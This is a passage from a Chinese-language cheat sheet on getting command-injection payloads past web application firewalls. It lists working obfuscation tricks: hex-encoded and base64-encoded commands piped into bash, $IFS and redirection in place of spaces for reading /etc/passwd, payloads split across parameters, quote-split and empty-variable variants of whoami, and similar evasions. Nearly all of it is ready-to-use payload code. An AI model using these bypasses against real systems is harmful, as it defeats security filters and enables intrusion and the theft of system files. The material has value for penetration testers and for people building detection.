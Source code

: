 ### 3.2.2 十六进制绕过  
```Shell  
# ls -> 十六进制  
# 方法1  
printf "\x6C\x73" | bash  
  
# 方法2  
echo "6C73" | xxd -r -p | bash  
```

## 3.3 空格绕过  
- `$IFS$9`：  
    - `$IFS`：是一个环境变量，代表当前系统中的分隔符。  
    - `$9`：将当前分隔符替换为水平制表符`\t`  
    ```Shell  
    cat${IFS}/etc/passwd  
    cat${IFS}$9/etc/passwd  
    cat$IFS$9/etc/passwd  
    ```
- `<>`  
    ```Shell  
    cat<>/etc/passwd  
    ```
- `<`  
	```Shell
	cat</etc/passwd
	```

## 3.4 参数截断绕过  
将 payload 拆分成多个参数，每个参数长度不超过 WAF 规定的最大长度，绕过 WAF 的参数长度限制。  
```Shell  
# ls -al | whoami  
ls&arg1=-al&arg2=|whoami  
```

## 3.5 拼接字符绕过  
将payload拆分成多个字符串，使用多种方式拼接起来，绕过WAF的命令拼接检测。  
```Shell  
 # ls  
 e""cho bHM= | b''ase64 -d | ba"sh"  
```

## 3.6 空变量绕过  
```Shell  
# $x x只能是一位数字  
wh$5oami  
  
# ${x} x大小任意整数  
wh${5665449}oami  
  
# $@  
whoa$@mi  
  
# $<str>  
cat$a /etc$b/passwd$z  
```

